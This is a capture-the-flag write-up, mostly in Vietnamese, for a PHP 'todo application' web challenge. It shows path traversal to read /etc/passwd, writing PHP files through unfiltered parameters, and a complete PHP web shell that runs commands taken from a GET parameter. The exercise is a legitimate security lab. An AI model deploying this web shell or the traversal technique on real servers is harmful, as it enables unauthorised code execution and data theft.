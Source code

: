 # Todo application:
Link: https://battle.cookiearena.org/challenges/web/todo-application

## Challenge Details
All your work will be saved to a checklist in the todo.txt file. Can a PHP Web Shell be created on this server? Could you try and read FLAG?

> Flag Location: /flagXXXX.txt\
> Flag Format: CHH{XXX}\
> Credits: YesWeHack

## B1: Kiểm tra tổng quan
- Truy cập vào đường dẫn:\
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/ce9e8854-3685-471a-9e21-051f57221d29)\
- Kiểm tra thử đầu vào: abc\
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/2203a601-2658-4254-a9d7-5d053a7be4df)\
- Ta quan sát thấy và rằng xuất hiện 2 parameter ?add và &fileTodo (trang web nhận đầu vào người dùng đưa vào và hiển thị nội dung nên có thể khai thác được path tranversal hoặc RCE)

## B2: Phân tích code
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/251b6f18-c25e-4521-8f1c-701ffdd787ac)\
- File mặc định là todo.txt và phần nội dung thêm vào là input của người dùng.\
- 2 parameter ?add và &fileTodo cho phép người dùng nhập mà không thực hiện kiểm tra bất kì thông tin gì, hay filter để lọc đầu vào của người dùng-> check chèn shell code và check path traversal.

## B3: Path traversal
- Ta tìm thấy file /etc/passwd
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/557a8000-55b5-495b-b461-83b64ca9d12c)

## B4: check upload file
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/270bf360-faa7-4ab0-b52a-29aab60ffcd8)
- Nội dung file hiển thị ở:
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/df906778-638a-4095-bcf3-999e9ae996fa)
=> RCE
- Tạo file php có nội dung như sau:
```
<? phpinfo();?>
```
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/a9d8b483-a6f7-4964-9ffa-d3f56a713e30)
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/918b1238-983f-44fe-bcbb-f30e703baa7e)
- Xem file php info ta thấy các hàm bị disable:xec,system,passthru,readfile,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open,ini_alter,dl,popen,parse_ini_file,show_source,curl_exec\
- Ta tạo 1 payload như sau:
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="100">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
      $a= exec($_GET['cmd']);
    }
    echo($a);
?>
</pre>
</body>
</html>
```
- Thực hiện encode:
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/9c503b82-82b5-4c15-9fbe-e31aa43cf94c)
 
- Kiểm tra trên browser:
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/3dde6109-5f78-424d-bafc-d162d9e09b14)
- Tìm file flag:
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/b2fc2882-fffd-468b-a42f-29134885f06f)
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/d69e61ef-ba24-4417-84ed-f9862a1febf8)

- 
